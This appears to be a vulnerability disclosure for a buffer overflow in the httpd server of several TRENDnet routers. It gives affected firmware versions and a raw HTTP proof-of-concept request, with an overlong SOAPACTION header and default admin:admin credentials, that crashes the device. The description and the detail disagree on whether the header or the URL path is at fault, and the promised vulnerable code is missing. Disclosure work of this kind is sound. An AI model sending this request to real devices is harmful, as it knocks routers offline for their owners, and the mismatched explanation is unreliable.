

# TEW-652BRP

## Firmware version
TEW-634GRU devices trhough 1.01b14
TEW-652BRP devices through 1.10.29
TEW-673GRU devices through 1.00b40

firmware download url: 
https://downloads.trendnet.com/tew-634gru/firmware/tew-634gruv1_(fw1.01b14).zip
https://downloads.trendnet.com/tew-652brp/firmware/tew-652brpv1(fw1.10b29).zip
https://downloads.trendnet.com/tew-673gru/firmware/tew-673gru_fw100b40.zip


## Description
Multiple TRENDnet devices contain a buffer overflow  in the httpd web server, which is caused by lacking of length checking of SOAPACTION parameter in the request header. The buffer overflow allows an unauthenticated attacker to conduct DoS or potentially command injection to the affected devices.

## Detail
The vulnerability is located in the `httpd_main` function of the `httpd` web server of affected devices.

The vulnerable code directly concatenate the URL path to a buffer, where the length of URL path is not checked. Consequently, an attacker can construct a long URL path to trigger the vulnerability.

The following is the vulnerable code:



We've constructed a PoC to successfully trigger the vulnerability, which led to a crash in the web server:

```txt
GET /ntpi* H
UNS
HOS
SOAPACTION: HNAP1xz
AuUNSUBSCRIBE /cc.cgiaaaxhyaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaxhyaaaaaaaaaaaaaaaaaaaaaxhywaaaaaaaa?123123123=1 HTTP/1.1
HOST: 10.0.0.90
SOAPACTION: HNAP1xhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyzxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyzxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyzxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyzxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhy|hyxhyzxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyzxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyzxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyzxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyzxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyzxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyzxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyxhyz
Authorization: Basic YWRtaW46YWRtaW4
```
